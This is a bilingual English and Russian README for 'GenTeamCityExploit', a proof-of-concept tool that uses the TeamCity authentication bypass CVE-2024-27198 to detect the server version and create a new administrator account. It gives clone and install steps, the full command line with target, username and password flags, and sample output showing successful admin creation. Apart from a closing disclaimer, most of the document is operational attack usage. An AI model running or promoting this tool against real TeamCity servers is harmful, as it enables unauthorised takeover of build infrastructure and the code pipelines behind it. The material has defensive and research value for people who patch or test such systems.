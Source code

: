 
# EN
**GenTeamCityExploit** is a PoC tool that targets a vulnerability in the TeamCity server (CVE-2024-27198). It enables the discovery of a TeamCity version and the creation of a new admin user by exploiting an authentication bypass flaw.

## Features
- Extracts the version of the TeamCity server.
- Checks for the presence of a known vulnerability (CVE-2024-27198).
- Creates a new administrator user if the server is vulnerable.

## Prerequisites
- **Python 3.6+**: Ensure you have Python installed.
- **Libraries**: Install the required libraries using:
    ```bash
    pip install requests urllib3
    ```

## Usage
1. Clone the repository.
    ```bash
    git clone https://github.com/geniuszly/CVE-2024-27198
    ```
2. Navigate to the directory.
    ```bash
    cd CVE-2024-27198
    ```
3. Run the script with the required parameters.
    ```bash
    python3 GenTeamCityAdminCreator.py -t <target_url> -u <username> -p <password>
    ```
    **Parameters**:
    - `-t`, `--target`: The URL of the target TeamCity server.
    - `-u`, `--username`: The username for the new admin user.
    - `-p`, `--password`: The password for the new admin user.

## Example
```bash
python3 GenTeamCityAdminCreator.py -t http://target-teamcity.com -u newadmin -p securepassword123
```

## Example output
```
$ python3 GenTeamCityAdminCreator.py -t http://target-teamcity.com -u newadmin -p securepassword123

[+] Версия сервера обнаружена: TeamCity Professional 2023.1 (build 104124)
[+] Сервер уязвим! Возвращен HTTP код: 200
[+] Пользователь 'newadmin' создан успешно! Перейдите на http://target-teamcity.com/login.html для входа.
```
In case the server is not vulnerable or the version is not found:
```
$ python3 GenTeamCityAdminCreator.py -t http://target-teamcity.com -u newadmin -p securepassword123

[+] Версия сервера обнаружена: TeamCity Professional 2023.1 (build 104124)
[-] Сервер, вероятно, неуязвим. Возвращен HTTP код: 403
```
If there is an error connecting to the server:
```
$ python3 GenTeamCityAdminCreator.py -t http://nonexistent-url.com -u newadmin -p securepassword123

[-] Ошибка при попытке соединения с сервером: HTTPConnectionPool(host='nonexistent-url.com', port=80): Max retries exceeded with url: /login.html (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7ff9e1f07df0>: Failed to establish a new connection: [Errno -2] Name or service not known'))
```

## Disclaimer
This tool is intended for educational purposes only and should not be used on any systems without explicit permission from the owner. Unauthorized access to computer systems is illegal.


# RU
**GenTeamCityExploit** — это PoC-инструмент, нацеленный на уязвимость сервера TeamCity (CVE-2024-27198). Он позволяет обнаружить версию TeamCity и создать нового администратора, используя уязвимость обхода аутентификации.

## Возможности
- Извлекает версию сервера TeamCity.
- Проверяет наличие известной уязвимости (CVE-2024-27198).
- Создает нового пользователя-администратора, если сервер уязвим.

## Требования
- **Python 3.6+**: Убедитесь, что у вас установлен Python.
- **Библиотеки**: Установите необходимые библиотеки командой:
    ```bash
    pip install requests urllib3
    ```

## Использование
1. Клонируйте репозиторий.
    ```bash
    git clone https://github.com/geniuszly/CVE-2024-27198
    ```
2. Перейдите в папку с проектом.
    ```bash
    cd CVE-2024-27198
    ```
3. Запустите скрипт с обязательными параметрами.
    ```bash
    python3 GenTeamCityAdminCreator.py -t <target_url> -u <username> -p <password>
    ```
    **Параметры**:
    - `-t`, `--target`: URL целевого TeamCity сервера.
    - `-u`, `--username`: Имя пользователя для нового администратора.
    - `-p`, `--password`: Пароль для нового администратора.

## Пример
```bash
python3 GenTeamCityAdminCreator.py -t http://target-teamcity.com -u newadmin -p securepassword123
```

## Пример вывода
```
$ python3 GenTeamCityAdminCreator.py -t http://target-teamcity.com -u newadmin -p securepassword123

[+] Версия сервера обнаружена: TeamCity Professional 2023.1 (build 104124)
[+] Сервер уязвим! Возвращен HTTP код: 200
[+] Пользователь 'newadmin' создан успешно! Перейдите на http://target-teamcity.com/login.html для входа.
```
В случае, если сервер не уязвим или версия не найдена:
```
$ python3 GenTeamCityAdminCreator.py -t http://target-teamcity.com -u newadmin -p securepassword123

[+] Версия сервера обнаружена: TeamCity Professional 2023.1 (build 104124)
[-] Сервер, вероятно, неуязвим. Возвращен HTTP код: 403
```
При возникновении ошибки подключения к серверу:
```
$ python3 GenTeamCityAdminCreator.py -t http://nonexistent-url.com -u newadmin -p securepassword123

[-] Ошибка при попытке соединения с сервером: HTTPConnectionPool(host='nonexistent-url.com', port=80): Max retries exceeded with url: /login.html (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7ff9e1f07df0>: Failed to establish a new connection: [Errno -2] Name or service not known'))
```

## Отказ от ответственности
Этот инструмент предназначен исключительно для образовательных целей и не должен использоваться на каких-либо системах без явного разрешения их владельца. Несанкционированный доступ к компьютерным системам является незаконным.
